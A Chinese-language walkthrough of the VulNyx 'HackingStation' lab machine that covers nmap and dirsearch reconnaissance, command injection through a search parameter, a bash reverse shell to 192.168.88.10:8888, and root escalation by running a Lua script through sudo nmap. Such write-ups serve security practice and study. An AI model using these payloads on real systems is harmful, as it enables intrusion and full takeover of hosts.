








# 环境

来自[vulnyx_HackingStation](https://vulnyx.com/#HackingStation)，利用网站存在命令执行拿到shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.32
```



## 服务详情

```bash
sudo nmap -sV -sC -O -p80 192.168.88.32
```



## 目录扫描

```bash
dirsearch -u http://192.168.88.32
```

# web渗透


## 命令执行拿shell

访问80，发现有个搜索功能


我们尝试sql注入发现无果，然后尝试命令执行，payload=`http://192.168.88.32/exploitQuery.php?product=apache;id`



进行反弹shell，抓包使用url编码发送

payload=`http://192.168.88.32/exploitQuery.php?product=apache;bash -c 'bash -i >& /dev/tcp/192.168.88.10/8888 0>&1'`





## 提取

```bash
sudo -l
```



发现nmap可以使用root权限，[nmap命令提取](https://gtfobins.github.io/gtfobins/nmap/)

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

